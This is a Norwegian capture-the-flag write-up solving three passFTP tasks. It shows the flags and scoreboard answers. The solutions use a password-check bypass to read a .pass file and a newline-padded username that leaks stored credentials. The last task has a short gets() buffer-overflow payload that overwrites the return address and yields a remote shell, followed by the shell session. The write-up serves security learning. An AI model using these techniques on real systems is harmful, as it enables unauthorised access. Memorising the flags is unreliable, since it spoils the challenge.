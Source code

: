 # 2.5.1_passftp
Her var det bare å logge seg inn med nc passftp.utl 1024\
Lå en FLAGG-fil, hentet med get FLAGG

passFTP> get FLAGG\
Downloading file FLAGG\
FLAGG: c935921a63c755f7954aa7b43c858c67
```
login@corax:~$ scoreboard FLAG{c935921a63c755f7954aa7b43c858c67}
Kategori: 2.5. Department of Security
Oppgave:  2.5.1_passftp
Svar:     c935921a63c755f7954aa7b43c858c67
Poeng:    10

Veldig bra!
```

# 2.5.2_passftp
Fant ut at get ignorerer passord-checken som cd får i passFTP_shared\
Tester meg litt frem og finner at passFTP_shared/src er en mappe, og finner passFTP_shared/src/main.c inni der. \
Denne nevner noe om at passordbeskyttede mapper har en egen .pass fil som sammenlignes med passordet man skriver inn\
Kjører bare `get passFTP_shared/.pass` og får dette passordet\
Jeg innså også litt senere at jeg egentlig bare kunne gjort `cd passFTP_shared/src` da denne ikke har noen .pass-fil.

Inne i kildekoden finner jeg hint til dette
>        // Use strncmp it's annoying to remove newlines from user input...\
>        // TODO: Fix so you can't login with extra characters in username or password

Finner ut at jeg kan logge inn som anonymous:anonymous, så antar at jeg skal lage en payload etter dette.\
Tester diverse, tenkte først jeg skal komme meg inn som brukernavn "user" men dette viste seg å være feil\
Etter å ha sett litt på printf-funksjonen innser jeg at hvis bufferet blir for langt så vil ikke null-byten som avslutter strengen sendes til printf.
```
login@corax:~/2_oppdrag/5_department_of_security$ nc passftp.utl 1024
Welcome to passFTP Server v1.0
Please login to continue
Username: anonymous\n\n\n\n\n\n\n\n\n\n\n
Password: anonymous
Welcome anonymous\n\n\n\n\n\n\n\n\n\n\n
anonymous:anonymous:1
oper:59f078d5c8f8a8fe47f8367086014ec9:2
admin:nopasswd:3
```
oper:59f078d5c8f8a8fe47f8367086014ec9 er brukernavn og passord til user.\
I oper sin mappe finner jeg FLAGG
```
login@corax:~/2_oppdrag/5_department_of_security$ nc passftp.utl 1024
Welcome to passFTP Server v1.0
Please login to continue
Username: oper
Password: 59f078d5c8f8a8fe47f8367086014ec9
Welcome oper

passFTP> Unknown command
passFTP> ls
total 4
-rw-r--r-- 1 admin admin 40 Jan  3 14:19 FLAGG
passFTP> get FLAGG
Downloading file FLAGG
FLAGG: 6891268a3d693812e429bb1ce1ecc96d
```
```
login@corax:~$ scoreboard FLAG{6891268a3d693812e429bb1ce1ecc96d}
Kategori: 2.5. Department of Security
Oppgave:  2.5.2_passftp
Svar:     6891268a3d693812e429bb1ce1ecc96d
Poeng:    10

Godt jobbet! Vi har funnet en fil med kildekode knyttet til et MOV<-16-system. Vi har lagt den i oppdragsmappen din på corax. Kanskje du får bruk for den i Department of Nuclear Power?

Ny fil: /home/login/2_oppdrag/access16-v1.6.mos
```

# 2.5.3_passftp
Innså tidlig at det er put som skal brukes for å kunne komme seg inn som adminbruker, da put brukte gets(buffer) som er vulnerable til buffer overflows, og kjent for å være en farlig funksjon.\
Lagde en basic payload:
```
buffer_size = 536
shell_function_address = p64(0x0040278d, endian='little')
payload = b'A' * buffer_size + shell_function_address
```
Fant addressen for å kjøre shell fra at jeg kompilerte mitt eget program og kjørte det gjennom IDA.\
Dette funket lokalt for å åpne shell, men på remote passFTP-serveren funket det ikke...

Skjønte at det bare var at adressene var på en annen plass. Testet bare diverse verdier som shell_function_address og fant til slutt 0x0040238d som addressen der det blir skrevet ut "Invalid filename" i remote.\
Testet først for "Invalid filename"-addressen som lå i put-funksjonen, men fant fort ut at det var den som lå i get, fant differansen mellom remote og min egen og fant til slutt 0x0040265e\
Dette ga meg remote shell
```
$ cd ..
$ ls -la
total 32
drwxr-xr-x 1 admin admin 4096 Dec 22 12:57 .
drwx------ 1 admin admin 4096 Dec 22 12:57 ..
drwxr-xr-x 1 admin admin 4096 Dec 22 12:57 anonymous
drwxr-xr-x 1 admin admin 4096 Jan  5 00:08 user
$ cd ..
$ ls -la
total 836
drwx------ 1 admin admin   4096 Dec 22 12:57 .
drwxr-xr-x 1 root  root    4096 Dec 14 21:53 ..
-rw-r--r-- 1 admin admin    220 Dec 14 21:53 .bash_logout
-rw-r--r-- 1 admin admin   3526 Dec 14 21:53 .bashrc
-rw-r--r-- 1 admin admin    807 Dec 14 21:53 .profile
-rw-r--r-- 1 admin admin     40 Jan  3 14:19 FLAGG
drwxr-xr-x 1 admin admin   4096 Dec 22 12:57 files
-rwxr-xr-x 1 admin admin 787088 Dec 22 12:57 passFTP
-rw-r--r-- 1 admin admin     79 Jan  3 14:19 passwd.txt
-rwxr-xr-x 1 admin admin  18872 Dec 22 12:57 ynetd
$ cat FLAGG
FLAGG: c9f66c1d8bb869c69fc11b025cfa974d
```
Noen påsto senere at man bare kunne laste ned passFTP-filen fra passFTP_shared/src/-mappen og finne adressene direkte, men jeg prøvde dette tidlig uten at det funket... Gjorde vel noe feil.
```
login@corax:~$ scoreboard FLAG{c9f66c1d8bb869c69fc11b025cfa974d}
Kategori: 2.5. Department of Security
Oppgave:  2.5.3_passftp
Svar:     c9f66c1d8bb869c69fc11b025cfa974d
Poeng:    10

Imponerende!
```
